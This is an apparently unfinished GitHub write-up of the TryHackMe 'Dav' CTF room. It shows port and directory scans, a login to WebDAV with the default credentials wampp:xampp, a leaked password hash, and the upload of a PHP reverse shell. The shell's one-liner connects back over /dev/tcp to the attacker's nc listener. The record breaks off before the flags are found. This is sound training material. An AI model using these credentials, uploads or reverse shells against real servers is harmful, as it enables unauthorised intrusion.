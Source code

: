 <p align="center">February 25, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{295}}$$-day-streak in  <a href="https://tryhackme.com/r/p/Rosana">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{Dav}}$$
</h1>
<p align="center">boot2root machine for FIT and bsides guatemala CTF</p>
<p align="center">Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/bsidesgtdav">DAV</a>.</p><br>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/101db08a-b506-4e4a-9de8-f4569bfaca85">
  <img height="150px" src="https://github.com/user-attachments/assets/7ce0c59b-c286-4719-94f5-85168145d75f">
</p>

<p align="center">Summary</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Walkthrough](#1) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [Super Secret Password](#1.1) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [Room complete](#2) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [My journey](#3)


<h2>Task 1. Dav<a id='1'></a></h2>

<p>Read user.txt and root.txt</p>

<pre><code># root@ip-[Attack]:~# rustscan -a [Target] --ulimit 5000 -- -vvv -sV -sC [Target]
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time \u231b

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open [Target]:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.80 ( https://nmap.org ) at 2024-11-01 01:31 UTC
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 01:31
Completed NSE at 01:31, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 01:31
Completed NSE at 01:31, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 01:31
Completed NSE at 01:31, 0.00s elapsed
Initiating Ping Scan at 01:31
Scanning 2 hosts [2 ports/host]
Completed Ping Scan at 01:31, 0.00s elapsed (2 total hosts)
Initiating Parallel DNS resolution of 2 hosts. at 01:31
Completed Parallel DNS resolution of 2 hosts. at 01:31, 0.00s elapsed
DNS resolution of 2 IPs took 0.00s. Mode: Async [#: 1, OK: 2, NX: 0, DR: 0, SF: 0, TR: 2, CN: 0]
Initiating Connect Scan at 01:31
Scanning 2 hosts [1 port/host]
Discovered open port 80/tcp on [Target]
Discovered open port 80/tcp on [Target]
Completed Connect Scan at 01:31, 0.00s elapsed (2 total ports)
Initiating Service scan at 01:31
Scanning 2 services on 2 hosts
Completed Service scan at 01:31, 6.04s elapsed (2 services on 2 hosts)
NSE: Script scanning 2 hosts.
NSE: Starting runlevel 1 (of 3) scan.
</code></pre><br>

![image](https://github.com/user-attachments/assets/e88ec0d9-ffdb-4f01-8727-d19ebc90d8bf)

<pre><code># root@ip-[Attack]: dirb http://[Target]

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Nov  1 01:38:01 2024
URL_BASE: http://[Target]/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://[Target]/ ----
+ http://[Target]/index.html (CODE:200|SIZE:11321)                                                               
+ http://[Target]/server-status (CODE:403|SIZE:301)                                                              
+ http://[Target]/webdav (CODE:401|SIZE:460)                                                                     
                                                                                                                      
-----------------
END_TIME: Fri Nov  1 01:38:06 2024
DOWNLOADED: 4612 - FOUND: 3

</code></pre><br>

<p> The default credentials are generally jigsaw:jigsaw(failed) adm1n:p@s$word(failed) wampp:xampp(success).</p>
<br>

![image](https://github.com/user-attachments/assets/76e929c1-d571-46d3-9730-8a09e635915c)

![image](https://github.com/user-attachments/assets/cb7bc450-34ee-466e-be50-bdea7c84cf4c)

![image](https://github.com/user-attachments/assets/6db03da3-7c4b-49b0-b7b8-ac684965bdae)




![image](https://github.com/user-attachments/assets/e064eb40-ffb6-483f-ac83-7a8c4c61830a)


![image](https://github.com/user-attachments/assets/f884a59b-3b1f-461b-9ece-f1bea833c395)

wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91

![image](https://github.com/user-attachments/assets/daa5c6e3-86f6-438a-8a0a-ed0065dac410)


![image](https://github.com/user-attachments/assets/eca0ec04-bdbb-4574-9399-291b9359f4b5)



<pre><code># root@ip-[Attack]:~# apt install cadaver
</code></pre><br>

<pre><code># root@ip-[Attack]:~# cadaver http://[Target]/webdav/
Authentication required for webdav on server `[Target]':
Username: wampp
Password: 
dav:/webdav/> 
</code></pre><br>

![image](https://github.com/user-attachments/assets/23b64686-dfca-4f6e-a1b5-c96a3b0cd238)

<pre><code>sh -i >& /dev/tcp/[Attack]/8080 0>&1
</code></pre><br>

<pre><code># root@ip-[Attack]:~# curl -u "wampp:xampp" -X PUT http://[Target]/webdav/shell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/shell.php has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at [Target] Port 80</address>
</body></html>
</code></pre><br>

![image](https://github.com/user-attachments/assets/82f2ddb8-173c-4368-862e-8cec0c691b70)

<pre><code># dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 42 bytes succeeded.
dav:/webdav/> 
</code></pre><br>


<pre><code># root@ip-[Attack]:~# nc -lvnp 8080
Listening on [0.0.0.0] (family 0, port 8080)
</code></pre><br>


<h1>................... to be continued .....................</h1>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 1.1. <em>user.txt</em><br><a id='1.1'></a>
>> <code><strong>_____</strong></code>

<br>

> 1.2. <em>root.txt</em><br><a id='1.2'></a>
>> <code><strong>_____</strong></code>

<br>


<h2>Room Complete<a id='2'></a></h2>
<p>Keep learning, keep growing!<br>



<h2>My Journey<a id='3'></a></h2>
<p></p>Following I share the status of my journey in TryHackMe.</p>




<p style="text-align: center;">Thank you for coming. Hope to learn together again!!</p>

